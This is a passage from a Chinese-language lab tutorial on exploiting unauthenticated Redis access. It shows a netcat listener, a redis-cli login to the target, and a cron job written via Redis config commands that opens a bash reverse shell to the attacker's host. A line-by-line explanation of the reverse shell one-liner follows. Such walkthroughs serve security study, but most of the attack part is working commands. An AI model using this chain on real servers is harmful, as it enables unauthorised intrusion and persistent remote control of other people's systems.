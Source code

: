 Kali 是攻击机

```bash
nc -lvp 2333
```

![image-20240801142300188](https://image.201068.xyz/assets/18.Redis/image-20240801142300188.png)

### 2、攻击机未授权访问登录到靶机

```bash
redis-cli -h 192.168.70.14
```

### 3、利用攻击机登录的靶机，在把靶机中设置反弹 shell

#### 靶机设置前提条件

1. `bind 0.0.0.0`
2. `Protect-mode no`
3. 防火墙关闭

#### 持久化计划任务

```bash
set xxx "\n\n* * * * * /bin/bash -i >& /dev/tcp/192.168.70.4/2333 0>&1\n\n" 
config set dir /var/spool/cron/
config set dbfilename root
save
```

![image-20240801142733725](https://image.201068.xyz/assets/18.Redis/image-20240801142733725.png)

#### 反弹shell成功

![image-20240801142829491](https://image.201068.xyz/assets/18.Redis/image-20240801142829491.png)

### 反弹 shell 解释

要产生一个交互式的 shell，使用 `bash -i`

- 标准输入 standard input 0 （默认设备键盘）
- 标准输出 standard output 1（默认设备显示器）
- 错误输出：error output 2（默认设备显示器）

> `bash -i`：产生一个 bash 交互环境。
>
> `&`：将联合符号前面的内容与后面相结合然后一起重定向给后者。
>
> `/dev/tcp/192.168.70.4/2333`：linux 环境中所有的内容都是以文件的形式存在的，让主机与目标主机 192.168.70.4:2333 端口建立一个 TCP 连接。
>
> `0>&1`：将标准的输入与标准输出内容相结合，然后重定向给前面标准的输出内容。
>
> `bash` ：产生了一个交互环境与本地主机主动发起与目标主机 2333 端口建立的连接（即 TCP 2333 会话连接）相结合，然后在重定向个 
>
> tcp 2333 会话连接，最后将用户键盘输入与用户标准输出相结合再次重定向给一个标准的输出，即得到一个 bash 反弹环境。

